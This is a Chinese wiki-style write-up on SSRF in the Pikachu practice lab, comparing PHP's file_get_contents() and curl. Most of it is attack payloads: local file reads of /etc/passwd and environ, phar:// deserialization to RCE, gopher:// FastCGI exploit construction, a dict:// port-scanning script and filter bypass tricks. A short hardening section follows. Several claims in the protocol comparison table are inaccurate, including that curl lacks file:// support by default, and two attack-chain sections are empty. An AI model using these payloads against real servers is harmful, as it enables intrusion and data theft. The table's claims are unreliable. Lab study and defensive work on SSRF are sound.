


## 概述

本页面基于无名安全团队归档文章《pikachu靶场&目录遍历&信息泄露&反序列化&XXE&重定向&SSRF(五)》，系统复现 Pikachu 靶场 SSRF 漏洞利用实例，重点对比 `file_get_contents()` 与 `curl` 两类 PHP 函数在 **协议支持范围**、**内网探测能力**、**伪协议利用** 等维度的差异化攻击面，为 CTF 选手与渗透测试人员提供实战参考。

> 交叉引用：[[ssrf-bypass-techniques]] SSRF 绕过技巧总结、[[php伪协议与反序列化利用]] PHP 伪协议利用详解、[[internal-network-pivoting-techniques]] 内网穿透与横向移动技术体系、[[pikachu-target-writeup-part5]] Pikachu靶场第5篇综合实战

---

## 一、Pikachu 靶场 SSRF 漏洞成因分析

### 核心代码片段

```php
// 典型 SSRF 触发点：后端直接使用用户可控 URL 参数发起请求
$url = $_POST['url'];  // 或 $_GET['url']
// file_get_contents 版本
$content = file_get_contents($url);
// curl 版本
$ch = curl_init($url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$content = curl_exec($ch);
curl_close($ch);
```

### 漏洞成因

- **缺乏目标地址过滤**：未校验 URL 协议、IP 地址、端口、域名
- **函数特性差异**：不同函数支持的协议处理器、默认行为（如跟随跳转、超时处理）不同
- **响应直接回显**：服务端请求结果原样返回给前端，形成「服务端作为跳板」的攻击面

---

## 二、file_get_contents() 与 curl 协议支持差异对比

| 协议/特性 | file_get_contents() | curl (默认配置) | 攻击利用价值 |
|-----------|---------------------|-----------------|--------------|
| **file://** | ✅ 原生支持，可读取本地任意文件 | ❌ 不支持（需 `CURLOPT_PROTOCOLS` 显式启用） | **核心差异**：file_get_contents 直接实现任意文件读取 |
| **http:// / https://** | ✅ 支持，不跟随 302 跳转（默认） | ✅ 支持，默认跟随跳转（`CURLOPT_FOLLOWLOCATION`） | curl 利于 302 跳转绕过，file_get_contents 需配合 `stream_context` |
| **gopher://** | ✅ 支持（PHP 5.3+），发送原始 TCP 数据 | ✅ 支持（需 `CURLOPT_PROTOCOLS` 包含 gopher） | 均可构造 FastCGI/Redis/HTTP POST 等利用链 |
| **dict://** | ✅ 支持，可探测内网服务端口/交互 | ✅ 支持 | 内网服务枚举、协议交互探测 |
| **ftp:// / ftps://** | ✅ 支持 | ✅ 支持 | 文件上传、目录遍历、敏感信息窃取 |
| **phar://** | ✅ 支持（PHP 5.3+），触发反序列化 | ❌ 不支持 | **核心差异**：file_get_contents 可直接触发 PHAR 反序列化链 |
| **data://** | ✅ 支持，执行内嵌数据 | ✅ 支持 | 绕过文件上传限制、执行内嵌 PHP 代码 |
| **compress.zlib:// / compress.bzip2://** | ✅ 支持流式解压 | ❌ 不支持 | 绕过 WAF 过滤、处理压缩响应 |
| **ssh2.shell:// 等** | ❌ 需扩展 | ✅ 支持（需 libssh2） | SSH 交互、横向移动 |

> **关键结论**：`file_get_contents()` 在 **本地文件读取 (file://)** 与 **PHAR 反序列化 (phar://)** 方面具有天然优势；`curl` 在 **跳转跟随**、**多协议细粒度控制**、**认证处理** 方面更灵活。

---

## 三、Pikachu 靶场实战复现：差异化利用链

### 场景一：file_get_contents() 任意文件读取

**Payload**：
```
file:///etc/passwd
file:///var/www/html/config.php
file:///proc/self/environ
```

**实测现象**（归档文章截图）：
- 直接回显 `/etc/passwd` 内容
- 读取 Web 目录下源码文件（如 `flag.php`、`abc.php`）

**利用价值**：
- 无需交互，单请求即可读取敏感文件
- 结合 `php://filter/read=convert.base64-encode/resource=` 读取二进制/PHP 源码

> 关联：[[php伪协议与反序列化利用#file-协议]] file:// 协议利用详解

### 场景二：file_get_contents() 触发 PHAR 反序列化

**前提**：目标存在可控的 PHAR 文件上传点（或利用现有 phar 文件）

**Payload**：
```
phar:///var/www/html/uploads/shell.jpg/test.txt
phar:///tmp/upload_abc123.php/metadata
```

**原理**：`file_get_contents()` 解析 `phar://` 时会自动反序列化 `manifest` 中的 `metadata`，触发 `__wakeup()`/`__destruct()` 等魔术方法。

**实战链路**：
1. 上传包含恶意元数据的 PHAR 文件（伪装为图片）
2. 通过 SSRF 触发 `phar://` 访问该文件
3. 实现对象注入 → RCE

> 关联：[[php伪协议与反序列化利用#phar-反序列化]] PHAR 反序列化利用链构造

### 场景三：curl 基于 gopher:// 的内网服务攻击

**目标**：内网 9000 端口 php-fpm (FastCGI)、6379 端口 Redis

**Payload 生成流程**（以 FastCGI 为例）：

1. **本地捕获协议交互**：
   ```bash
   nc -lvvp 9000 > fastcgi_raw.txt
   python2 fcfgi_client.py -c "<?php system('id');?>" -p 9000 127.0.0.1 /var/www/html/index.php
   ```

2. **转换为 Gopher Payload**：
   - 二进制流 → 十六进制
   - 双重 URL 编码（首次编码后 `%0A` → `%0D%0A`，再全量编码）
   - 最终格式：`gopher://127.0.0.1:9000/_<双重编码后的十六进制字符串>`

3. **通过 curl 发送**：
   ```php
   curl_setopt($ch, CURLOPT_URL, "gopher://127.0.0.1:9000/_POST%2520%252Findex.php...");
   ```

**curl 优势**：
- 支持 `CURLOPT_TIMEOUT` 精确控制超时（避免 FastCGI 交互阻塞）
- 支持 `CURLOPT_FOLLOWLOCATION` 处理 302 跳转绕过
- 可设置 `CURLOPT_HEADER`、`CURLOPT_USERAGENT` 等细粒度头部控制

> 关联：[[ssrf-ctf-exploitation-guide#四-fastcgi-协议-rce-实战]] CTFHUB FastCGI RCE 实战流程

### 场景四：dict:// 协议内网端口/服务探测

**通用 Payload**：
```
dict://127.0.0.1:6379/INFO
dict://127.0.0.1:9000/HELP
dict://192.168.1.100:22/STAT
```

**两函数均支持**，返回服务 Banner 信息：
- Redis: `+REDIS 6.2.6 ...`
- SSH: `SSH-2.0-OpenSSH_8.2p1`
- php-fpm: 无直接文本响应，但可确认端口开放

**自动化探测脚本片段**：
```python
import requests
ports = [22, 80, 3306, 6379, 9000, 27017]
for port in ports:
    payload = f"dict://127.0.0.1:{port}/INFO"
    r = requests.post(target, data={'url': payload})
    if "DICT" in r.text or "+" in r.text:
        print(f"[+] Port {port} open: {r.text[:100]}")
```

---

## 四、SSRF 绕过技巧在两函数下的适用性对比

| 绕过技巧 | file_get_contents() | curl | 适用场景 |
|----------|---------------------|------|----------|
| **@ 认证绕过** `http://user@127.0.0.1/` | ✅ | ✅ | 校验 `parse_url` host 为内网 IP 时绕过 |
| **十六进制 IP** `http://0x7f000001/` | ✅ | ✅ | 黑名单过滤 `127.0.0.1`/`localhost` |
| **八进制 IP** `http://0177.0.0.1/` | ✅ | ✅ | 同十六进制，部分解析器支持 |
| **302 跳转绕过** | ❌ 默认不跟随 | ✅ 默认跟随 | 需配合 `stream_context` 设置 `follow_location=1` |
| **DNS 重绑定** | ✅ | ✅ | 绕过静态 IP 解析校验，需控制域名解析 |
| **短地址/URL 编码** `http://127.0.0.1/%61%64%6d%69%6e` | ✅ | ✅ | 绕过关键词过滤 |
| **协议嵌套** `file:///etc/passwd#http://allowed.com` | ✅ | ❌ | 利用片段标识符绕过 host 校验 |

> 关联：[[ssrf-bypass-techniques#绕过技巧总结表]] 完整绕过技巧对照表

---

## 五、Pikachu 靶场综合攻击链示例

### 攻击链 1：file_get_contents() 单链路全击穿



### 攻击链 2：curl 协议交互深度利用



---

## 六、防御与检测建议（针对函数差异）

### 通用防御

1. **协议白名单**：仅允许 `http`/`https`，显式禁用 `file`/`gopher`/`dict`/`phar`/`data` 等
2. **目标 IP 校验**：请求前解析域名 → 校验 IP 不属于内网/保留段（RFC 1918、127.0.0.0/8、169.254.0.0/16、::1/128 等）
3. **统一出口网关**：所有外部请求强制走代理，代理层做协议过滤、IP 校准、响应脱敏
4. **响应最小化**：禁止将服务端请求的响应体、状态码、Header 直接回显

### 针对 file_get_contents() 加固

```php
$ctx = stream_context_create([
    'http' => [
        'follow_location' => 0,        // 禁用 302 跳转
        'max_redirects' => 0,
        'timeout' => 5,                // 严格超时
    ],
    'ssl' => [
        'verify_peer' => true,
        'verify_peer_name' => true,
    ],
    // 关键：禁用危险协议处理器
    'wrapper' => [
        'file' => false,
        'phar' => false,
        'data' => false,
        'compress.zlib' => false,
    ]
]);
$content = file_get_contents($url, false, $ctx);
```

> 注意：PHP 无法通过 `stream_context` 直接禁用协议处理器，需配合 `stream_wrapper_unregister('file')` 等函数在启动时全局禁用，或使用 `open_basedir` 限制文件系统访问。

### 针对 curl 加固

```php
$ch = curl_init($url);
curl_setopt_array($ch, [
    CURLOPT_RETURNTRANSFER => 1,
    CURLOPT_FOLLOWLOCATION => 0,       // 禁用跳转
    CURLOPT_MAXREDIRS => 0,
    CURLOPT_TIMEOUT => 5,
    CURLOPT_CONNECTTIMEOUT => 3,
    CURLOPT_PROTOCOLS => CURLPROTO_HTTP | CURLPROTO_HTTPS, // 仅允许 HTTP/HTTPS
    CURLOPT_REDIR_PROTOCOLS => CURLPROTO_HTTP | CURLPROTO_HTTPS,
    CURLOPT_SSL_VERIFYPEER => true,
    CURLOPT_SSL_VERIFYHOST => 2,
    CURLOPT_USERAGENT => 'Internal-SSRF-Client/1.0', // 标识来源
]);
$content = curl_exec($ch);
```

---

## 七、工具链与自动化利用脚本

| 工具/脚本 | 适用函数 | 核心功能 |
|-----------|----------|----------|
| **Gopherus** | curl / file_get_contents | 生成 gopher://、dict://、fastcgi、redis、mysql 等 Payload |
| **SSRFmap** | 两者均支持 | 自动化 SSRF 探测、内网扫描、协议利用、绕过测试 |
| **Python-FastCGI-Client** | curl (配合 gopher) | 直接与 php-fpm 交互，生成原始 FastCGI 流 |
| **Phar 生成脚本** | file_get_contents | 生成含恶意元数据的 PHAR 文件（`phar://` 触发反序列化） |
| **DNS 重绑定服务** (lock.cmpxchg8b.com) | 两者均支持 | 动态解析域名：首次解析外网 IP 通过校验，二次解析 127.0.0.1 |

---

## 八、参考资源与延伸阅读

- **原文归档**：无名安全团队《pikachu靶场&目录遍历&信息泄露&反序列化&XXE&重定向&SSRF(五)》
- **Pikachu 靶场项目**：https://github.com/zhu217/pikachu
- **PHP 伪协议官方文档**：https://www.php.net/manual/zh/wrappers.php
- **cURL 选项官方文档**：https://www.php.net/manual/zh/function.curl-setopt.php
- **相关知识库页面**：
  - [[ssrf-bypass-techniques]] SSRF 绕过技巧总结
  - [[php伪协议与反序列化利用]] PHP 伪协议与反序列化利用
  - [[internal-network-pivoting-techniques]] 内网穿透与横向移动技术体系
  - [[pikachu-target-writeup-part5]] Pikachu靶场第5篇综合实战
  - [[ssrf-ctf-exploitation-guide]] CTFHUB SSRF 靶场完整利用链实战指南
  - [[gkctf-2021-web-writeup#checkbot-ssrf-xss]] GKCTF 2021 CheckBot SSRF 实战

---

> **更新记录**：2025-01-15 初版创建，基于无名安全团队归档文章整理，聚焦 Pikachu 靶场 SSRF 实战中 `file_get_contents()` 与 `curl` 差异化攻击面分析。

## 来源

- [0x00实验室-202108-202304_075](../sources/0x00实验室-202108-202304_075.md)
